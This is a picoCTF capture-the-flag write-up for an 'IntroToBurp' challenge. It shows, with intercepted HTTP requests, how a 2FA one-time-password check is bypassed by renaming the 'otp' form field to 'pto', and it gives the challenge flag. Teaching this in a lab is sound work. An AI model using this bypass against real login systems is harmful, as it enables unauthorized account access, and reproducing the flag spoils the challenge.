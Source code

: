## Challenge 🧩

Try here to find the flag

Author: NANA AMA ATOMBO-SACKEY & SABINE GISAGARA</br>
Points: 100

Hints:

1. Try using burpsuite to intercept request to capture the flag.
2. Try mangling the request, maybe their server-side code doesn't handle malformed requests very well.

## Solution 🕵️‍♂️

Using Burp to intercept the traffic.
After filling registration details, we are welcomed by 2FA page in 2FA page have to provide a otp to view dashboard
Trying otp `123`

```text
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:XXXXX
Content-Length: 7
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://titan.picoctf.net:XXXXX
Content-Type: application/x-www-form-urlencoded
Referer: http://titan.picoctf.net:XXXXX/dashboard
...

otp=123
```

We will get Invalid OTP.

Pass the request to repeater and send the malformed request by changing `otp` to `pto`

```text
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:XXXXX
Content-Length: 7
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://titan.picoctf.net:XXXXX
Content-Type: application/x-www-form-urlencoded
Referer: http://titan.picoctf.net:XXXXX/dashboard
...

pto=123
```

![IntroToBurp Flag](src/IntroToBurp_Flag.PNG)

## Flag 🚩

`picoCTF{#0TP_Bypvss_SuCc3$S_xxxxxxxx}`
